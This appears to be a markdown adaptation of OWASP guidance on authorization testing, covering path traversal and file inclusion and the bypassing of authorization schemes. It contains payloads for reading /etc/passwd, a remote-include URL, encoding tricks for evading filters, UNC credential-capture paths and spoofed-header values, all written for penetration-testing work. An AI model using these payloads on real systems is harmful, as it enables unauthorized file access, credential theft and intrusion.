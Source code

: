 # Authorization Testing
---
## Navigation
- **[Directory Traversal File Include LFI](#Directory%20Traversal%20File%20Include%20LFI)**
- **[Bypassing Authorization Schema](#Bypassing%20Authorization%20Schema)**

---
# Directory Traversal File Include (LFI)
### Input Vectors Enumeration
checks to be performed:
-   Are there request parameters which could be used for file-related operations?
-   Are there unusual file extensions?
-   Are there interesting variable names?
    -   `http://example.com/getUserProfile.jsp?item=ikki.html`
    -   `http://example.com/index.php?file=content`
    -   `http://example.com/main.cgi?home=index.html`
-   Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?
    -   `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
    -   `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`
### Testing Techniques
```
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
```

For the cookies example:

```
Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

It’s also possible to include files and scripts located on external website:

```
http://example.com/index.php?file=http://www.owasp.org/malicioustxt
```

If protocols are accepted as arguments, as in the above example, it’s also possible to probe the local filesystem this way:

```
http://example.com/index.php?file=file:///etc/passwd
```

If protocols are accepted as arguments, as in the above examples, it’s also possible to probe the local services and nearby services:

```
http://example.com/index.php?file=http://localhost:8080
http://example.com/index.php?file=http://192.168.0.2:9080
```

The following example will demonstrate how it is possible to show the source code of a CGI component, without using any path traversal characters if it's present in the same directory.

```
http://example.com/main.cgi?home=main.cgi
```
> **Tip:** It’s a common mistake by developers to not expect every form of encoding and therefore only do validation for basic encoded content. If at first the test string isn’t successful, try another encoding scheme.

Each operating system uses different characters as path separator:

-   Unix-like OS:
    -   root directory: `/`
    -   directory separator: `/`
-   Windows OS:
    -   root directory: `<drive letter>:`
    -   directory separator: `\` or `/`
-   Classic macOS:
    -   root directory: `<drive letter>:`
    -   directory separator: `:`

We should take in to account the following character encoding mechanisms:

-   URL encoding and double URL encoding
    -   `%2e%2e%2f` represents `../`
    -   `%2e%2e/` represents `../`
    -   `..%2f` represents `../`
    -   `%2e%2e%5c` represents `..\`
    -   `%2e%2e\` represents `..\`
    -   `..%5c` represents `..\`
    -   `%252e%252e%255c` represents `..\`
    -   `..%255c` represents `..\` and so on.
-   Unicode/UTF-8 Encoding (it only works in systems that are able to accept overlong UTF-8 sequences)
    -   `..%c0%af` represents `../`
    -   `..%c1%9c` represents `..\`
 
 There are other OS and application framework specific considerations as well. For instance, Windows is flexible in its parsing of file paths.

-   Windows shell: Appending any of the following to paths used in a shell command results in no difference in function:
    -   Angle brackets `<` and `>` at the end of the path
    -   Double quotes (closed properly) at the end of the path
    -   Extraneous current directory markers such as `./` or `.\\`
    -   Extraneous parent directory markers with arbitrary items that may or may not exist:
        -   `file.txt`
        -   `file.txt...`
        -   `file.txt<spaces>`
        -   `file.txt""""`
        -   `file.txt<<<>>><`
        -   `./././file.txt`
        -   `nonexistant/../file.txt`

**Windows API**: The following items are discarded when used in any shell command or API call where a string is taken as a filename:
    -   `periods`
    -   `spaces`
-   **Windows UNC Filepaths**: Used to reference files on SMB shares. Sometimes, an application can be made to refer to files on a remote UNC filepath. If so, the Windows SMB server may send stored credentials to the attacker, which can be captured and cracked. These may also be used with a self-referential IP address or domain name to evade filters, or used to access files on SMB shares inaccessible to the attacker, but accessible from the web server.
    -   `\\server_or_ip\path\to\file.abc`
    -   `\\?\server_or_ip\path\to\file.abc`
-   **Windows NT Device Namespace**: Used to refer to the Windows device namespace. Certain references will allow access to file systems using a different path.
    -   May be equivalent to a drive letter such as `c:\`, or even a drive volume without an assigned letter: `\\.\GLOBALROOT\Device\HarddiskVolume1\`
    -   Refers to the first disc drive on the machine: `\\.\CdRom0\`

# Bypassing Authorization Schema
### Horizontal Bypassing Authorization Schema
-   Is it possible to access resources that should be accessible to a user that holds a different identity with the same role or privilege?
-   Is it possible to operate functions on resources that should be accessible to a user that holds a different identity?

**For each role:**
1.  Register or generate two users with identical privileges.
2.  Establish and keep two different sessions active (one for each user).
3.  For every request, change the relevant parameters and the session identifier from token one to token two and diagnose the responses for each token.
4.  An application will be considered vulnerable if the responses are the same, contain same private data or indicate successful operation on other users’ resource or data.

### Vertical Bypassing Authorization Schema

**For each role:**

1.  Register a user.
2.  Establish and maintain two different sessions based on the two different roles.
3.  For every request, change the session identifier from the original to another role’s session identifier and evaluate the responses for each.
4.  An application will be considered vulnerable if the weaker privileged session contains the same data, or indicate successful operations on higher privileged functions.

### Testing for Special Request Header Handling
Some applications support non-standard headers such as `X-Original-URL` or `X-Rewrite-URL` in order to allow overriding the target URL in requests with the one specified in the header value.
### Other Headers to Consider
-   Headers:
    -   `X-Forwarded-For`
    -   `X-Forward-For`
    -   `X-Remote-IP`
    -   `X-Originating-IP`
    -   `X-Remote-Addr`
    -   `X-Client-IP`
-   Values
    -   `127.0.0.1` (or anything in the `127.0.0.0/8` or `::1/128` address spaces)
    -   `localhost`
    -   Any [RFC1918](https://tools.ietf.org/html/rfc1918) address:
        -   `10.0.0.0/8`
        -   `172.16.0.0/12`
        -   `192.168.0.0/16`
    -   Link local addresses: `169.254.0.0/16`

>Note: Including a port element along with the address or hostname may also help bypass edge protections such as web application firewalls, etc. For example: `127.0.0.4:80`, `127.0.0.4:443`, `127.0.0.4:43982`

